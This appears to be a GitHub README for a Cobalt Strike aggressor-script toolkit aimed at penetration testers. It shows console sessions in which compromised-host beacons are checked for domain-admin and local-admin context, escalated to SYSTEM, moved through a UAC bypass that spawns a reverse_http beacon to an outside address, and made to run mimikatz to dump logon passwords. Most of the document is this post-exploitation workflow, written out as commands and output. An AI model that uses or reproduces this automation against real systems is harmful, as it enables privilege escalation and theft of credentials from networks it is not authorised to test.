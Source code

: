 # CobaltStrike-ToolKit
I’m sure there are better ways of doing all of this but as of right now there hasn’t been much put out so this will do :)

## CheckDA - Command

Currently uses a PowerShell based check, combined with an aggressor script to check for the initial agent user name.
While using .NET 3.5 to perform Domain Group enumeration (PowerShell 2+ safe). This allows for alerting on Pen-Test of a DA level beacons. 
### Usage
Load up the Script:
```
aggressor> load /root/Tools/CobaltStrike-ToolKit/Initial-DACheck.cna
[+] Load /root/Tools/CobaltStrike-ToolKit/Initial-DACheck.cna
```
When a initial beacon comes in you receive a pop up box and will see:
```
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/Invoke-DACheck.ps1
[*] Tasked beacon to run: Invoke-DACheck -Initial True
[+] host called home, sent: 2527 bytes
[+] received output:
Found-DA-User: admin
```
### Independent Command:
```
beacon> checkda
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/Invoke-DACheck.ps1
[*] Tasked beacon to run: Invoke-DACheck
[+] host called home, sent: 2519 bytes
[+] received output:
[!] Currently DA Context
```
## CheckLA - Command

Currently uses a PowerShell based check, combined with an aggressor script to check for the initial agent context.
While using .NET 3.5 to perform Local Group enumeration and Token Context (PowerShell 2+ safe). This has the following context:
1. Checks for Initial Beacons Context (Elevated or Local Admin)
2. If the beacon is elevated it will Auto Getsystem, and run LogonPasswords
3. If the beacon in Local Admin but not in a high integrity process it will run Bypass UAC on that beacon
4. This will than launch a beacon in a high integrity beacon causing the first event to fire running LogonPasswords

### Usage 
Run this with all the other scripts
```
aggressor> load Initial-LAdminCheck.cna
[+] Reload /root/Tools/CobaltStrike-ToolKit/Initial-LAdminCheck.cna
```
when a Initial Beacon comes in:
```
aggressor> reload Initial-LAdminCheck.cna
[+] Reload /root/Tools/CobaltStrike-ToolKit/Initial-LAdminCheck.cna
```
If it returns as a Local Admin it will perform Bypass UAC:
```
[*] Tasked beacon to spawn windows/beacon_http/reverse_http (192.168.1.198:80) in a high integrity process
[+] host called home, sent: 76304 bytes
```
The new beacon will run logonPassword as desired :)
```
[*] Tasked beacon to get SYSTEM
[*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command
[+] host called home, sent: 444597 bytes
[+] Impersonated NT AUTHORITY\SYSTEM
[+] received output:
```
### Independent Command 
```
beacon> checkla
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/CheckLAdminContext.ps1
[*] Tasked beacon to run: Invoke-LocalAdminCheck
[+] host called home, sent: 2622 bytes
[+] received output:
[!] Currently-in-LocalAdmin-Context
```



